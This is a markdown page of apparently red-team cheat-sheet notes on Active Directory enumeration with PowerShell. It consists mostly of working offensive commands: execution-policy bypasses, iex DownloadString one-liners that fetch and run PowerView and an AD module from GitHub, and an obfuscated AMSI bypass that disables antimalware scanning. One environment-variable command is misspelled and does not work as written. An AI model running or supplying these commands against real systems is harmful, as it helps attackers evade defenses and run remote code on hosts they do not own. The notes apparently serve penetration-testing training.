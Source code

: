 [-] if you try to run script `.ps1` and get this error : `cannot be loaded because running scripts is disabled on this system`
run this command to bypass
Ps> `Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass`
or 
ps> `$env:PSExecutionPolicyPrefernce="bypass"`
or
Ps> `powershell -ExecutionPolicy bypass`

---
[-] shortcuts
ctrl + L > clean 

[-] put your tools in `/var/www/html` and run `service apache2 start` 

---

### Domain Enumeration

To Get Current privilages :  
`Ps> whoami /privilages`
To enumerate for current domain and forest :  

``` Powershell
$ADClass = [System.DirectoryServices.ActiveDirectory.Domain]
$ADClass::GetCurrentDomain()
```

---

To Speed up the process we can use [PowerView ](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)


installing PowerView can be done in multiple ways for example:
``` Powershell
iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')
```
NOTE : WORKED FOR Windows 7
NOTE : For Windows 10 , the AMSI blocks the installation we can bypass the AMSI by typing the following command:
``` Powershell
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} ) 
```


And we can use [ActiveDirectory PowerShell Module](https://github.com/samratashok/ADModule) :

Installing ActiveDirectory PowerShell Module can be done in multiple ways for example:
``` Powershell
iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory
```
NOTE : Tested for Windows 10 WORKED

---